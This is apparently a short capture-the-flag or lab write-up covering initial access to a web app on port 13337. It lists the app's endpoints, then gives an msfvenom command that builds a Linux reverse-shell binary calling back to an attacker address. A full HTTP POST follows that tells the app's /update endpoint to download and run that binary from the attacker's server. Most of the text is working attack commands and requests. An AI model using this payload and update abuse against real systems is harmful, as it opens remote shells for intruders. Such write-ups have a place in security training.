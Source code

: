 ## Initial Access

```shell
http://192.168.214.134:13337/

/
Methods: GET
Returns this page.

/version
Methods: GET
Returns version of the app running.

/update
Methods: POST
Updates the app from ELF file. Content-Type: application/json {"user":"<user requesting the update>", "url":"<url of the update to download>"}

/logs
Methods: GET
Read log files.

/restart
Methods: GET
To request the restart of the app.

```

- Our vector is clear, use the /update endpoint and post a binary file with our reverse shell hosted on the url.

```shell
msfvenom -p linux/x84/shell_reverse_tcp LHOST=192.168.45.215 LPORT=4444 -f elf > shell.elf
```

```http
POST /update HTTP/1.1

Host: 192.168.214.134:13337

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Content-Type: application/json

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Upgrade-Insecure-Requests: 1

Content-Length: 69



{"user":"admin", "url":"http://192.168.45.215:8000/shells/shell.elf"}
```
